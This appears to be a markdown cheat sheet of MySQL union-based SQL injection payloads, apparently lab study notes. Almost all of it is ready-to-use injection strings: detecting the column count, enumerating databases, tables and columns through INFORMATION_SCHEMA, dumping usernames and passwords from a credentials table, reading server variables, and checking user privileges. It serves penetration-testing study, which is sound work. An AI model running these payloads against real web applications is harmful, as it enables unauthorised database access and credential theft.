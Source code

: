 ## Detect number of columns with union clause

```sql
cn' UNION SELECT 1-- -
cn' UNION SELECT 1,2-- -
cn' UNION SELECT 1,2,3-- -   # and so on
cn' UNION select 1,@@version,3,4-- -  # # attempting to get the version in the second column
```

## Information schema database

will dump a list of all the database on the server
```sql
SELECT * FROM my_database.users;
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```

## Databases
union sqli to get all the database names
```
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

## Database in use
use database() to get the currently used database
```
cn' UNION select 1,database(),2,3-- -
```

## Tables
```
# TABLE_SCHEMA column points to the database each table belongs to
# TABLE_NAME column stores table names
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

## Columns
```
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

## Data
```
cn' UNION select 1, username, password, 4 from dev.credentials-- -
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables-- -
```

## Privileges
```
# different ways to get current user
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user

# union injection payloads to get current user
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
cn' UNION SELECT 1, user(), 3, 4-- -

# check if we have super admin privileges
SELECT super_priv FROM mysql.user
```